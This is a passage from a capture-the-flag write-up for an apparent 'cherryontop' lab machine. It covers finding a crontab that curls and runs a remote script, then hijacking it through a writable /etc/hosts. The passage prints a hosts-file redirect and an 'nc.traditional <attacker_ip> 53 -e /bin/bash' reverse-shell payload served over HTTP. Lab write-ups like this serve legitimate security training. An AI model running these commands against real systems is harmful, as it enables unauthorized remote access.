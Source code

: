 It doesn't look like much is going on so let's move on...
## Flag 4 - The third part of Chad Cherry's password
Let's connect to the machine over SSH with the credentials provided:
**Username:** notsus
**Password:** dontbeascriptkiddie

We see two files, `backdoor.mp4` and `youFoundIt.txt`:
![d1a76a999122fd40d1ebf2f4a351028a.png](d1a76a999122fd40d1ebf2f4a351028a.png){: w="500" h="300" .center}
- After reading the text, it's clear that our target is Bob-Boba
- The `backdoor.mp4` doesn't really provide any new information but it's a nice touch :)
- These are all the users on the machine:

![2b15d7c567833719729c93aab0193cc8.png](2b15d7c567833719729c93aab0193cc8.png){: w="400" h="300" .center}


I'll use `linpeas` for enumeration
```bash
scp linpeas.sh notsus@cherryontop.thm:linpeas.sh
```
- Linpeas found this crontab entry
- `curl` will try to get the contents of `cherryontop.tld:8000/home/bob-boba/coinflip.sh` and execute it every minute.

![a3058cfc2b223a77969c5fb8755f8b45.png](a3058cfc2b223a77969c5fb8755f8b45.png){: w="600" h="300" .center}

- `/etc/hosts` is also writable so it becomes clear what needs to be done here

![e850a0bdd5d1ba50da45387cce9ba4c7.png](e850a0bdd5d1ba50da45387cce9ba4c7.png){: w="600" h="300" .center}

We simply have to edit the `/etc/hosts` file to point the `cherryontop.tld` domain to our machine.
Then we add the file `coinflip.sh` containing a payload with it's parent directories to our machine and run a webserver on port `8000`
Once the crontab gets executed, it will get the contents of **our coinflip.sh** and execute it on the target system:

```bash
# Run on victim machine
echo "<attacker_ip> cherryontop.tld" >> /etc/hosts 
```
```bash
# Run on attacker machine
mkdir -p ./home/bob-boba
echo "nc.traditional <attacker_ip> 53 -e /bin/bash" > ./home/bob-boba/coinflip.sh
python3 -m http.server 8000
nc -lvnp 53
```

- After about a minute or so, we see that a **GET request** is made to retrieve the file `coinflip.sh`

![d9acc6f31333501d9ed09cd2fdfdc5c2.png](d9acc6f31333501d9ed09cd2fdfdc5c2.png){: w="600" h="300" .center}

- It is then executed which gives us a reverse shell
